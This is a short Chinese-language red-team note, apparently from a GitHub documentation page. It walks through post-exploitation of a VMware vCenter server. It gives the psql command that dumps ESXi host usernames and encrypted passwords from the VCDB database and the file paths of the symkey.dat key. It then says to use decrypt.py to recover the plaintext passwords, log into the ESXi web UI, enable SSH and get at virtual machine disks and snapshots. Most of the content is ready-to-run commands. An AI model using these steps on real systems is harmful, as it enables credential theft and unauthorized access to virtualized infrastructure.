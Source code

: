 vcenter 本地连接数据库获取 ESXI 账号密码

```
psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > /tmp/tets/password.enc
```

虚拟主机信息

```
SELECT id,datacenter_id,file_name,guest_os,ip_address,config FROM vc.vpx_vm;
```

获取 symkey.dat 

```
Windows：  C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat
Linux:  /etc/vmware-vpx/ssl/symkey.dat
```

使用 [decrypt.py](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/be/decrypt.py ':ignore') 解密得到密码

```
python3 decrypt.py symkey.dat password.enc password.txt

python decrypt.py [symkey] [encrypted_password] 
```

登陆 ESXI 后台  https://192.168.100.37/ui/  ，后台可手动打开 ssh 服务

![image-20230615101448956](attachments/image-20230615101448956.png)

可通过 ssh 登陆后操作虚拟机磁盘或快照

![image-20230615101751392](attachments/image-20230615101751392.png)
